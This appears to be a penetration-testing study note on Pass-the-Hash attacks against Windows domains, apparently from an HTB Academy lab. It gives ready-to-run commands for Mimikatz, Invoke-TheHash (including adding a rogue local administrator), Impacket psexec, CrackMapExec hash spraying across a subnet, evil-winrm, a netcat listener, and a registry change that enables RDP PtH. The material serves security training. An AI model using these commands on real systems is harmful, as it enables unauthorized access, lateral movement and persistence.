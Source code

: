 - A [Pass the Hash (PtH)](https://attack.mitre.org/techniques/T1550/002/) attack is a technique where an attacker uses a password hash instead of the plain text password for authentication. 
- The attacker doesn't need to decrypt the hash to obtain a plaintext password. 
- PtH attacks exploit the authentication protocol, as the password hash remains static for every session until the password is changed.
# Pass the Hash with Mimikatz (Windows)
- The first tool we will use to perform a Pass the Hash attack is [Mimikatz](https://github.com/gentilkiwi).
- Mimikatz has a module named `sekurlsa::pth` that allows us to perform a Pass the Hash attack by starting a process using the hash of the user's password.
	- `/user` - The user name we want to impersonate.
	- `/rc4` or `/NTLM` - NTLM hash of the user's password.
	- `/domain` - Domain the user to impersonate belongs to. In the case of a local user account, we can use the computer name, localhost, or a dot (.).
	- `/run` - The program we want to run with the user's context (if not specified, it will launch cmd.exe).
#### Pass the Hash from Windows Using Mimikatz:
```cmd
mimikatz.exe privilege::debug "sekurlsa::pth /user:administrator /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
```
## Pass the Hash with PowerShell Invoke-TheHash (Windows)
#### Invoke-TheHash with SMB
```powershell
cd C:\tools\Invoke-TheHash\

Import-Module .\Invoke-TheHash.psd1

Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
```
#### Netcat Listener
```powershell
.\nc.exe -lvnp 8001
```
https://www.revshells.com/
#### Invoke-TheHash with WMI
```powershell
Import-Module .\Invoke-TheHash.psd1

Invoke-WMIExec -Target DC01 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "<hash>"
```
# Pass the Hash with Impacket (Linux)
- [Impacket](https://github.com/SecureAuthCorp/impacket) has several tools we can use for different operations such as `Command Execution` and `Credential Dumping`, `Enumeration`, etc.
#### Pass the Hash with Impacket PsExec
```shell
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453
```
There are several other tools in the Impacket toolkit we can use for command execution using Pass the Hash attacks, such as:
- [impacket-wmiexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/wmiexec.py)
- [impacket-atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py)
- [impacket-smbexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py)
## Pass the Hash with CrackMapExec (Linux)
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) is a post-exploitation tool that helps automate assessing the security of large Active Directory networks. 
- We can use CrackMapExec to try to authenticate to some or all hosts in a network looking for one host where we can authenticate successfully as a local admin.
#### Pass the Hash with CrackMapExec
```shell
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453
```
#### CrackMapExec - Command Execution
```shell
crackmapexec smb 10.129.201.126 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453 -x whoami
```
## Pass the Hash with evil-winrm (Linux)
- [evil-winrm](https://github.com/Hackplayers/evil-winrm) is another tool we can use to authenticate using the Pass the Hash attack with PowerShell remoting. 
- If SMB is blocked or we don't have administrative rights, we can use this alternative protocol to connect to the target machine.
#### Pass the Hash with evil-winrm
```shell
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453
```
## Pass the Hash with RDP (Linux)
`Restricted Admin Mode`, which is disabled by default, should be enabled on the target host; otherwise, you will be presented with the following error:
![[Pasted image 20240725091441.png]]
This can be enabled by adding a new registry key `DisableRestrictedAdmin` (REG_DWORD) under `HKEY_LOCAL_MACHINE\System\CurrentControlSet\Control\Lsa` with the value of 0.
#### Enable Restricted Admin Mode to Allow PtH
```cmd
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
```
